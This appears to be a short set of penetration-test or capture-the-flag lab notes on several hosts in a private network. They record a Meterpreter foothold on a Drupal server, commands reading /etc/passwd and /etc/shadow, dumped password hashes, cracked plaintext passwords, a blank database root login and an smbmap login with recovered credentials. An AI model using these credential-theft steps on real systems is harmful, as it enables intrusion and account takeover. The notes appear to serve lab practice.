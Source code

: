 # 192.168.100.51 WIN2
Found users
Administrator            Guest                    steven  

WINSERVER-02
Flag found in administrator desktop
53a781552d604b75948b778b352ee97b







# 192.168.100.52 LIN1

Tried to register with all the emails given.
Said that admin@syntex.com is already registered
`The e-mail address admin@syntex.com is already registered.`
Admin email: admin@syntex.com

Got meterpreter for service acct on drupal
Dump:
`cat /etc/passwd | grep -v /nologin | grep -v /bin/false`
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync   --> system acct
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash --> system
auditor:x:1001:1001::/home/auditor:/bin/bash
dbadmin:x:1002:1002::/home/dbadmin:/bin/bash

username: dbadmin
password: sayang
RDP in and got root
cat /etc/passwd | grep -v /nologin | grep -v /bin/false
cat /etc/shadow
```
root:$6$v8b2/P8T26uEUwvM$TBiao8o1dfqQrGPPcebRj6A6cNiixcy6/r/AFtN5Swk7N1kpg/8UyQK0pXFwdLfy5Ed/71VN91nJ6.3JyAN/00:18998:0:99999:7:::
auditor:$6$RNJCCrE9ok/yCMqD$7uPoYFsrnR3wPnSwPeLuBEiXgAzlOzGW6uZSyX.IjNNVcR5.bDBhb.dlZTN37JJR4yZXXQTetuUhOOX9ZNov6/:19099:0:99999:7:::
dbadmin:$6$1HAbXNNxXVVNCcoi$6Zy2gjvyZZYHTwSyxSLsdv0LA.5hA7EeD1WhUFzHg9SOSXrz7DxX7iG0mCQbmEBSo.yjB1c80iIujSM6Fjbpo/:19099:0:99999:7:::
```

Unshadowed and cracked
sayang           (dbadmin)     
qwertyuiop       (auditor)

mysql enum
Found users for drupal
admin
auditor
dbadmin
vincenzo


# 192.168.100.50 WIN1
found phpmyadmin creds
root:: (blank)


Found wordpress creds from cracking MD5

admin:: estrella

Manage to login to wp-admin




# 192.168.100.55 WIN3

smbmap -u lawrence -p "computadora" -d . -H 192.168.100.55
lawrence::computadora